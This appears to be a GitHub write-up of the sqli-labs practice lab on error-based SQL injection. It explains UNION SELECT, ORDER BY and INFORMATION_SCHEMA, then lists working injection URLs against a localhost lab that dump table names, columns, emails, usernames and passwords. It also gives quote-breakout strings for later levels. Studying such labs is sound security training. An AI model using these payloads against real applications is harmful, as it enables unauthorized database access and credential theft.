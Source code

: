 # sqli-labs-write-up
## Error based injections
In this type of injection we have error to help us fuzz the payload, there will be something which reflects our payload on the screen, 
When we keep changing the value of id we get different output’s of username and passwords.. <br>
￼
And by adding  ‘ to id we produce and sql error <br>
￼
So to fix this error we findout the payload that can make the url work…we can understand that the syntax is consist of id=‘’ and the remaining statement.  We comment out the rest of the statement to not give any further error<br>

￼
Now we know the correct paylaod which works so now we can use the union statement the dump the database..<br>
Now we use different sql functions to know about the database <br>
database()- used to find the database name<br>
Version()- we use this to find the  current version of the MySQL database, as a string.<br>
Like ()- we use this functions to find patterns<br>
Here are some examples showing different LIKE operators with '%' and '_' wildcards:<br>
LIKE Operator	Description<br>
WHERE CustomerName LIKE 'a%'	Finds any values that start with "a"<br>
WHERE CustomerName LIKE '%a'	Finds any values that end with "a"<br>
WHERE CustomerName LIKE '%or%'	Finds any values that have "or" in any position<br>
WHERE CustomerName LIKE '_r%'	Finds any values that have "r" in the second position<br>
WHERE CustomerName LIKE 'a_%'	Finds any values that start with "a" and are at least 2 characters in length<br>
WHERE CustomerName LIKE 'a__%'	Finds any values that start with "a" and are at least 3 characters in length<br>
WHERE ContactName LIKE 'a%o'	Finds any values that start with "a" and ends with "o"<br>

Example
SELECT * FROM Customers
WHERE CustomerName LIKE 'a%';


Dual-The dual in sql is used to SELECT a value returned by a function by querying the table. The dual in sql can concatenate two or more strings and return the resultThe dual in sql is used to SELECT a value returned by a function by querying the table. The dual in sql can concatenate two or more strings and return the result…
 
Order by- we use this to find the number of columns in the particular if it exceeds the the value then it show out an error
￼
Union select in mysql :
The UNION operator is used to combine the result-set of two or more SELECT statements.
* Every SELECT statement within UNION must have the same number of columns
* The columns must also have similar data types


Now to use union select we need names of  tables, columns so we use the INFORMATION_SCHEMA provides access to database metadata, information about the MySQL server such as the name of a database or table, the data type of a column. Other terms that are sometimes used for this information are data dictionary and system catalog.

The INFORMATION_SCHEMA.TABLES view allows you to get information about all tables and views within a database. By default it will show you this information for every single table and view that is in the database.<br>
The INFORMATION_SCHEMA.COLUMNS view allows you to get information about all columns for all tables and views within a database. By default it will show you this information for every single table and view that is in the database.<br>
Column name	Data type	Description<br>
TABLE_CATALOG	nvarchar(128)	Table qualifier.<br>
TABLE_SCHEMA	nvarchar(128)	Name of schema that contains the table.<br>
TABLE_NAME	nvarchar(128)	Table name.<br>
COLUMN_NAME	nvarchar(128)	Column name.<br>
The TABLE_SCHEMA function returns the schema name of the object found after any alias chains have been resolved.<br>
￼
Now using all this information lets make a query to <br>
http://localhost:1234/Less-1/?id=-1 'union select 1,2,database()—+<br>
http://localhost:1234/Less-1/?id=-1 'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() limit 0,1—+<br>
http://localhost:1234/Less-1/?id=-1 'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='emails' limit 0,1—+<br>
http://localhost:1234/Less-1/?id=-1'union select 2,group_concat(id),group_concat(email_id) from  emails --+<br>
http://localhost:1234/Less-1/?id=-1'union select 2,group_concat(password),group_concat(username) from users --+ <br>





For level 2 use id= 1 <br>
For level 3  use id=2’)<br>
For level 4  use id =3”)<br>
Lab 11 -> lab 1 but in user input<br>
Lab 12 -> lab 2<br>












